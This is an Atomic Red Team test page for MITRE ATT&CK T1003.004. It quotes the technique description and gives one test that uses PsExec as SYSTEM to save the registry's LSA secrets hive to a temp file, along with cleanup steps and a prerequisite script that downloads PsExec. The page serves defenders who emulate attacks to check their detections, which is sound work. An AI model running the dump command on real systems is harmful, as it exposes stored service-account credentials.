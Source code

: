 # T1003.004 - LSA Secrets
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1003/004)
<blockquote>Adversaries with SYSTEM access to a host may attempt to access Local Security Authority (LSA) secrets, which can contain a variety of different credential materials, such as credentials for service accounts.(Citation: Passcape LSA Secrets)(Citation: Microsoft AD Admin Tier Model)(Citation: Tilbury Windows Credentials) LSA secrets are stored in the registry at <code>HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets</code>. LSA secrets can also be dumped from memory.(Citation: ired Dumping LSA Secrets)

[Reg](https://attack.mitre.org/software/S0075) can be used to extract from the Registry. [Mimikatz](https://attack.mitre.org/software/S0002) can be used to extract secrets from memory.(Citation: ired Dumping LSA Secrets)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Dumping LSA Secrets](#atomic-test-1---dumping-lsa-secrets)


<br/>

## Atomic Test #1 - Dumping LSA Secrets
Dump secrets key from Windows registry
When successful, the dumped file will be written to $env:Temp\secrets.
Attackers may use the secrets key to assist with extracting passwords and enumerating other sensitive system information.
https://pentestlab.blog/2018/04/04/dumping-clear-text-credentials/#:~:text=LSA%20Secrets%20is%20a%20registry,host%2C%20local%20security%20policy%20etc.

**Supported Platforms:** Windows


**auto_generated_guid:** 55295ab0-a703-433b-9ca4-ae13807de12f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| psexec_exe | Path to PsExec executable | Path | PathToAtomicsFolder&#92;T1003.004&#92;bin&#92;PsExec.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
#{psexec_exe} -accepteula -s reg save HKLM\security\policy\secrets %temp%\secrets /y
```

#### Cleanup Commands:
```cmd
del %temp%\secrets >nul 2> nul
```



#### Dependencies:  Run with `powershell`!
##### Description: PsExec from Sysinternals must exist on disk at specified location (#{psexec_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path #{psexec_exe}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "$env:TEMP\PSTools.zip"
Expand-Archive $env:TEMP\PSTools.zip $env:TEMP\PSTools -Force
New-Item -ItemType Directory (Split-Path #{psexec_exe}) -Force | Out-Null
Copy-Item $env:TEMP\PSTools\PsExec.exe #{psexec_exe} -Force
```




<br/>
